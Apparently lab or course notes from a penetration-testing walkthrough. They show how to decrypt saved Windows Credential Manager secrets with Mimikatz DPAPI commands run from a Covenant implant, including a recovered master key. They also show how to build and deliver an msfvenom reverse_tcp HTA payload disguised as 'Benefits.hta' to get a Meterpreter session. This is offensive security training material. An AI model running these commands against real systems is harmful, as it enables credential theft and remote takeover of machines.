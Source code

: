 ### Cracking the Credential Vault with Covenant
- **Medium level credentials**
- Open remote desktop from `WORKSTATION-01` to `dc01` and ensure credentials are *saved*
- Go to `Covenant`
	- Open a `Medium` integrity `Grunt`
		- `mimikatz vault::cred`
		- `ls C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126122928.png)
-  Open a new tab in `Covenant`
	- Go to `Grunts`
		- Click on the current active `Medium` integrity `Grunt`
			- Go to `Task`
				- GruntTask: `Mimikatz`
				- Ensure double quotes are used for the `Command`
					- Command: `"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5"`
				- `Task`
					- Note the `guidMasterKey` in the output
- Go back to the `Medium` integrity `Grunt`
	- `ls C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126123541.png)
- copy `C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113`
	- `ls C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126123717.png)
- copy `C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113\7658586d-083f-49f4-ab5b-8f3575b6cbf8`
- Click the `Task` tab
	- Command: `"dpapi::masterkey /in:C:\Users\s.chisholm.mayorsec\appdata\roaming\microsoft\protect\S-1-5-21-3457093242-545618575-2805282300-1113\7658586d-083f-49f4-ab5b-8f3575b6cbf8 /rpc"`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126124051.png)
- In the output save the `key` *value*
	- 2: `cf717c7c2b29a1bc88a6c62bc18d1b2b618d286cccdfb51a7990d82804dac0dbbca0e72af611b39f36cbc754f4318078be76b7a512d9114317d0ed1f81bb49e3`
	- 1: Go back a few commands to `dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5` and copy this
	- Go to `Task`
		- Syntax goes "**1** `/masterkey:`**2**"
			- `"dpapi::cred /in:C:\Users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey:cf717c7c2b29a1bc88a6c62bc18d1b2b618d286cccdfb51a7990d82804dac0dbbca0e72af611b39f36cbc754f4318078be76b7a512d9114317d0ed1f81bb49e3"`
![image](https://0xc0rvu5.github.io/docs/assets/images/20221126124545.png)

### Cracking the Credential Vault via Metasploit
- Open a `Medium` integrity `meterpreter` session
	- [[Metasploit Quick Shell Setup]]
```bash
- On kali host:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=443 -f hta-psh -o Benefits.hta`
	- Transfer `Benefits.hta` over to Windows host-machine
		- `python3 -m http.server 80`
		- On Windows host-machine browse to:
			- `http://192.168.3.28/Benefits.hta`
			- Execute the file on host system  **Windows defender needs to be turned off for this and Microsoft Word needs to be present on the host machine**
	- Start Metasploit:
		- `msfconsole`
			- `use /exploit/multi/handler`
```